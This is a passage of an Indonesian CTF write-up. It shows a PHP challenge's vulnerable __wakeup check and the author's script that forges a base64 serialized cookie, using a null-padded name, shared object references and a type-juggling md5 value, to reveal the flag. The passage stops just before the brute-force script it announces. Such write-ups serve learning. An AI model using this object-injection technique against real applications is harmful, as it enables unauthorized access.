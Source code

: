 Pada source code diatas kita kita akan melihat class admin, yang dimana disitu terdapat `FLAG`.

Disini kita bisa melakukan deserialization di bagian cookie user seperti yang terdapat pada source code index.php.

Kita akan mendapatkan flag dengan membypass restriksi berikut yang ada di class admin.

```php 
        function __wakeup(){
            if(strlen($this->name) == 10 &&
            strcmp($this->name, "admin") &&
            $this->secret1 === $this->secret2 &&
            md5($this->secret2->key) == 23) {
            print FLAG;
            }
        }
```

Berikut script yang saya buat untuk membuat cookie untuk mendapatkan flagnya.

```php
<?php
class Validate
{
    public $key;
}
class Admin
{
    private $name;
    private $secret1;
    private $secret2;

    function __construct($name, $secret1, $secret2)
    {
        $this->name = $name;
        $this->secret1 = $secret1;
        $this->secret2 = $secret2;
    }
}


$secret2 = new Validate();
$secret2->key = 916; // found after bruteforcing using the same version of php (7.4.33)
$myObj = new Admin("admin\0\0\0\0\0", $secret2, $secret2);
$sereal = serialize($myObj);
print base64_encode($sereal) . "\n";

```

output:

![](https://i.imgur.com/CIaOv3U.png)

Untuk bruteforce type jugling saya menggunakan script berikut:

